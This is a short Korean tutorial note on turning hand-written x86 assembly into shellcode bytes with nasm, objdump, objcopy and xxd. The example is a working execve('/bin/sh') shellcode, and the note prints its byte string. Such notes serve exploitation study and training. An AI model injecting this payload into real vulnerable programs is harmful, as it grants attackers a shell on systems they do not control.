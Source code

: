 #### objdump를 이용한 shellcode 추출  
작성한 shellcode를 byte code(opcode) 형태로 추출하는 방법  

```
; File name: shellcode.asm

section .text
global _start
_start:
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
xor    ecx, ecx
xor    edx, edx
mov    al, 0xb
int    0x80
```

```
$ sudo apt-get install nasm
$ nasm -f elf shellcode.asm
$ objdump -d shellcode.o
```   

```
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin
```. 

그럼 아래와 같이 손쉽게 바이트코드를 얻을 수 있음  
```
execve /bin/sh shellcode: 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```  



